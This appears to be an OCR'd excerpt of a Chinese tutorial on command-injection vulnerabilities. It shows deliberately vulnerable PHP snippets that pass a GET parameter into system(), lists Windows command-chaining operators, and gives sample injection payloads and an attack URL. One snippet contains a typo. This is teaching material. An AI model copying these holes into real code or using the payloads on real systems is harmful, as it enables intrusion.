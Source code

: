 - proc_popen
- pcntl_exec
- $(xxx)：在bash中用来做命令替换的，可以当做shell命令执行，但不是所有shell都支持。



## 0x02 命令执行漏洞代码
```
<?php
echo "<pre>";
if(isset($_GET["cmd"])){
system($_GET["cmd"]);
}
echo "</pre>";
?>
```

直接链接加参数即可：http://ip地址/?cmd=ipconfig



## 0x03 Windows下命令执行漏洞分析

以下使用PHP代码，对指定目标执行Ping命令
```php
<?php
echo "<pre>";$arg = $_GT["cmd"];
if($arg){
	system("ping $arg");
}
echo "</pre>";?>
```

代码中拼接用户的输入进system函数执行，但是无法直接执行用户的自定义命令。

思路：截断输入，重新拼接，两条命令都输入并执行。

在Windows系统下的cmd命令，有以下一些截断拼接符：
- & 前面的语句为假则直接执行后面的
- && 前面的语句为假则直接出错，后面的也不执行
- \| 直接执行后面的语句
- \|\| 前面的出错执行后面的

例如正常情况下：ping 127.0.0.1恶意攻击：

- ping 111 & ipconfig
- ping 127.0.0.1 && ipconfig
- ping 127.0.0.1 \| ipconfig
- ping 111 \|\| ipconfig
  攻击链接为：http://ip/?cmd=111&ipconfig



## 0x04 Linux下命令执行漏洞分析

以下使用PHP代码，对指定目标执行Ping命令
```php
<?php
echo "<pre>";
$arg = $_GET["cmd"];
if($arg){
    system("ping -c 4 $arg");
}
echo "</pre>";
?>
```
